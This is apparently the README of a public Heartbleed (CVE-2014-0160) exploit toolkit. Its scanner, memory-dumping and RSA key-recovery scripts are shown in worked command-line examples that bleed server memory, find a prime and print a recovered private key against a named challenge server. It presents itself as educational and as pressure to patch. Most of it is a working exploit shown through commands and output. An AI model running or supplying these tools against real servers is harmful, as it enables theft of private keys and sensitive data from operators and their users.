 ## OpenSSL Heartbleed (CVE-2014-0160) vulnerability scanner, data miner and RSA key-restore tools.

Author: Einar Otto Stangvik / @einaros / https://hacking.ventures

Since the cat is long since out of the bag, and others have begun publishing their tools,
I'm putting mine out there too. Hopefully this amplifies the pressure on those that still
haven't patched or upgraded their severs. Others may find the tools of educational value.

Unlike many other Heartbleed PoCs, this tool will supply most possible ciphers in the initial
ClientHello packet. Whatever cipher the server picks will be used for all subsequent ClientHello
packets in a dump session. That should ensure proper vulnerability detection, as well as
decrease overhead once a cipher has been found.

Use these tools as you please, but do us all a favor: Solve problems instead of creating them.

Inspired by the work and publications of:
- Jared Stafford
- Jeremi M Gosney
- Ben M Murphy 
- ... and many others.

### Usage:

Here seen recovering one of the RSA primes of the CloudFlare challenge 34 times in one minute. That equals getting the full private key 34 times in one minute.
![img](https://i.imgur.com/zfEBObE.png)

```
# Test vulnerability using unobtrusive mode
# This will request N bytes, but supply N-1 itself, so that the server will
# only actually bleed a single byte if vulnerable. Suggested N is 16360 in this
# case, since that will result in a single TLS record: 
# 3 + 2 + 1 + 2 + 16360 + 16 bytes = 0xFFFF.

$ ./hb.py -u -n 16360 -p 443 www.example.int
www.example.int:443 is vulnerable

# Dupm data from CloudFlare's old challenge server

$ ./hb.py -p 443 www.cloudflarechallenge.com -n 0xF000 -l 100 -t 50 -d -o cloudflare-dump.bin
[2014/04/14 10:55:48] Incoming data rate: 85877 kbps
... runs for a while

# Look for prime in the dump

$ ./keyscan.py cloudflare.crt cloudflare-dump.bin
Key size: 128
Data length: 173476834
cloudflare-dump.bin Offset 0xf155ec: p = 13827796798740740191625032142481917804987720337701...

# Extract key once found

$ ./keyscan.py cloudflare.crt cloudflare-dump.bin 0xf155ec
Prime should be at offset: f155ec
Key size: 128

Hexdump of surrounding data:
f151ec: D0 00 00 00 00 00 00 00 00 00 00 00 00 00 30 C0  ..............0.
f151fc: 3C 01 00 00 00 00 00 00 00 00 00 00 00 00 90 8B  <...............
f1520c: D0 00 00 00 00 00 02 00 C3 A3 4D 08 48 47 00 00  ..........M.HG..
...

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAm0AWkVnDx5feOctdC97Ztgvtd25uKKmhjCHpLycmExe1RiRSl/hGIL7f8Fg/
qiUztVm5uXZJ1UG7dzz+9OtTNh+v27BtzPsU3yivHevwAB1mTMtP6bPuXBjzsxRcC9yVcBBWpKBM
...
```

### License

The author can't and won't hold any right to any part of this package. It's based on open ideas,
and shall remain open for all he cares.
